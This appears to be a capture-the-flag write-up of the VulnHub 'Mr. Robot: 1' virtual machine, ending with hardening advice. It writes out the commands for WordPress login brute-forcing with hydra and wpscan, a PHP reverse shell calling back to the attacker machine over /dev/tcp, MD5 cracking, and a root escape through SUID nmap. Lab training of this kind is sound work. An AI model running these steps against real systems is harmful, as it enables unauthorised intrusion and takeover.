# Mr. Robot: 1 — VulnHub Machine Write-up

### Machine Information

| Category | Details |
| :--- | :--- |
| **Machine** | Mr. Robot: 1 |
| **Platform** | VulnHub |
| **Difficulty** | Intermediate |
| **Attacker OS** | Kali Linux (`192.168.56.101`) |
| **Target IP** | `192.168.56.105` |
| **Environment** | VirtualBox (Host-Only Adapter `eth1`) |
| **Goal** | Retrieve all 3 keys and obtain root privileges |

---

### Executive Summary

This write-up documents the black-box security assessment of the **Mr. Robot: 1** virtual machine. The attack path starts with subnet host discovery and port enumeration, identifies exposed sensitive files via `robots.txt`, recovers credentials through WordPress user enumeration and dictionary optimization, secures initial remote code execution via an injected theme/plugin template, stabilizes the shell, pivots to the local user `robot` via MD5 cracking, and culminates in full root access by exploiting an outdated SUID `nmap` binary.

---

### Key Findings

* **Information Exposure (`robots.txt`):** The web server exposed direct links to a customized dictionary (`fsocity.dic`) and the first key (`key-1-of-3.txt`).
* **Predictable User Enumeration:** WordPress login error messages differentiated between valid and invalid usernames, confirming account `elliot`.
* **Insecure File Management:** The WordPress file editor allowed authenticated users to modify PHP template/plugin files, granting Remote Code Execution (RCE).
* **Weak Credential Storage:** An unshadowed MD5 password hash for local user `robot` was stored in a world-readable file (`password.raw-md5`).
* **Privilege Escalation via SUID Abuse:** Legacy binary `/usr/local/bin/nmap` (v3.81) was configured with the SUID bit set, allowing an interactive shell escape directly to `root`.

---

### Attack Chain Flow

```text
Host Discovery (arp-scan / netdiscover)
       │
       ▼
Service Enumeration (Nmap aggressive scan)
       │
       ▼
Web Discovery (robots.txt -> key-1-of-3.txt & fsocity.dic)
       │
       ▼
Credential Recovery (Wordlist deduplication -> WP login brute-force)
       │
       ▼
Initial Foothold (Plugin Modification -> Reverse Shell)
       │
       ▼
Horizontal Escalation (MD5 crack -> user 'robot' -> key-2-of-3.txt)
       │
       ▼
Vertical Escalation (SUID nmap --interactive breakout -> root)
       │
       ▼
Final Objective (Root proof & key-3-of-3.txt)
```

---

### Phase 1: Reconnaissance & Enumeration

#### 1. Host Discovery
The target machine was located on the VirtualBox Host-Only subnet (`eth1`) using `arp-scan`:

```bash
sudo arp-scan --interface=eth1 192.168.56.0/24
```



Target IP confirmed: **`192.168.56.105`**.

---

#### 2. Service and Port Scanning
An aggressive scan was performed to detect OS details, service versions, default scripts, and traceroute:

```bash
sudo nmap -A 192.168.56.105
```



**Key Findings:**
* **Port 80/TCP:** Apache httpd 2.4.7 ((Ubuntu))
* **Port 443/TCP:** Apache httpd (SSL/TLS enabled)
* **Port 22/TCP:** Closed / Filtered (SSH unavailable)

---

#### 3. Web Surface Enumeration & Key 1
Inspecting `[http://192.168.56.105/robots.txt](http://192.168.56.105/robots.txt)`:



Navigating to `[http://192.168.56.105/key-1-of-3.txt](http://192.168.56.105/key-1-of-3.txt)` yielded **Key 1**:

```text
073403c2cd55dd0020b8f43a254304d7
```

Downloaded the customized dictionary `fsocity.dic` for local brute-forcing:

```bash
wget http://192.168.56.105/fsocity.dic
```

---

#### 4. Dictionary Optimization
The downloaded `fsocity.dic` contained over 850,000 words. Sorting and deduplicating the list made brute-force attempts significantly faster:

```bash
# Check line count of original list
wc -l fsocity.dic

# Remove duplicate entries and save clean list
sort -u fsocity.dic > clean_fsocity.dic

# Verify reduced line count
wc -l clean_fsocity.dic
```



Deduplication reduced the wordlist to ~11,451 unique lines, cutting down brute-force search time significantly.

---

### Phase 2: Vulnerability Analysis & Exploitation

#### 1. Directory Enumeration
Performed directory fuzzing to identify hidden paths on `[http://192.168.56.105](http://192.168.56.105)`:

```bash
ffuf -u http://192.168.56.105/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .txt,.php,.html -t 30
```

An interesting administrative entry point was identified at `/wp-login.php`.

---

#### 2. WordPress User Enumeration and Authentication
To brute-force credentials efficiently, the exact login error message for invalid usernames was captured:



Captured HTTP POST request format:

```http
POST /wp-login.php HTTP/1.1
Host: 192.168.56.105
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 95
Connection: keep-alive

log=r&pwd=&wp-submit=Log+In&redirect_to=https%3A%2F%2F192.168.56.105%2Fwp-admin%2F&testcookie=1
```

Enumerated valid usernames using Hydra:

```bash
hydra -L clean_fsocity.dic -p test123 192.168.56.105 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=https%3A%2F%2F192.168.56.105%2Fwp-admin%2F&testcookie=1:F=Invalid username" -t 30
```



Valid account identified: **`elliot`**.

Brute-forced the password for user `elliot` using `wpscan`:

```bash
wpscan --url http://192.168.56.105/wp-login.php -U elliot -P clean_fsocity.dic
```


Discovered credentials: **`elliot`** : **`ER28-0652`**.

---

#### 3. Reverse Shell
Logged into the WordPress admin dashboard:



Started a local Netcat listener on the attacker machine:

```bash
nc -lvnp 443
```

Injected a PHP reverse shell one-liner into an editable plugin file (`hello.php`):

```php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.101/443 0>&1'");
```



Triggered the payload by navigating directly to the plugin path:

```text
https://192.168.56.105/wp-content/plugins/hello.php
```



A connection was established back to the listener as user `daemon`.

---

#### 4. Shell Stabilization
Upgraded the limited shell to a fully interactive TTY:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

*Pressed `Ctrl+Z` to background the shell:*

```bash
stty raw -echo; fg
export TERM=xterm
```



---

### Phase 3: Privilege Escalation

#### 1. Horizontal Escalation (`daemon` -> `robot`)
Inspected `/home/robot` and discovered a password hash file:

```bash
echo "c3fcd3d76192e4007dfb496cca67e13b" > hash.txt
john --format=Raw-MD5 --wordlist=clean_fsocity.dic hash.txt
john --format=Raw-MD5 --show hash.txt
```

* **Decrypted Password:** `abcdefghijklmnopqrstuvwxyz`

Switched to the `robot` user:

```bash
su - robot
```



Retrieved **Key 2**:

```bash
cat /home/robot/key-2-of-3.txt
```

* **Key 2:** `822c73956184f694993bede3eb39f959`



---

#### 2. Vertical Escalation (`robot` -> `root`)
Searched for files with the SUID permission bit set:

```bash
find / -perm -4000 -type f 2>/dev/null
```

Among standard system binaries, `/usr/local/bin/nmap` was flagged with SUID root permissions:



Spawned a root shell via Nmap's legacy interactive mode:

```bash
/usr/local/bin/nmap --interactive
```



Executed an interactive shell breakout:

```bash
nmap> !sh
id
cat /root/key-3-of-3.txt
```



Retrieved the final flag:

* **Key 3:** `04787ddef27c3dee1ee161b21670b4e4`



---

### Flags Summary

| Flag | File Location | Value |
| :--- | :--- | :--- |
| **Key 1 of 3** | `[http://192.168.56.105/key-1-of-3.txt](http://192.168.56.105/key-1-of-3.txt)` | `073403c2cd55dd0020b8f43a254304d7` |
| **Key 2 of 3** | `/home/robot/key-2-of-3.txt` | `822c73956184f694993bede3eb39f959` |
| **Key 3 of 3** | `/root/key-3-of-3.txt` | `04787ddef27c3dee1ee161b21670b4e4` |

---

### Remediation & Defensive Hardening

* **Protect Sensitive Web Assets:** Do not host operational wordlists or sensitive keys inside the web server's public document root. Remove critical operational paths from `robots.txt`.
* **Mitigate User Enumeration:** Configure the web application to return generic authentication error messages (e.g., *"Invalid username or password"*) to prevent valid account discovery.
* **Disable File Editing in CMS:** Add the following directive to `wp-config.php` to prevent administrative accounts from executing code via theme or plugin modifications:
  ```php
  define('DISALLOW_FILE_EDIT', true);
  ```
* **Upgrade Password Hashing Algorithms:** Transition from unsalted, legacy MD5 hashes to modern salted password-hashing schemes such as `bcrypt` or `Argon2id`.
* **Enforce Least Privilege on Binaries:** Audit SUID binaries regularly and strip elevated privileges from tools that allow arbitrary subshell execution:
  ```bash
  sudo chmod u-s /usr/local/bin/nmap
  ```

---

### Disclaimer

This write-up is provided strictly for educational and defensive security purposes. All testing was conducted on an isolated, authorized local virtual machine.
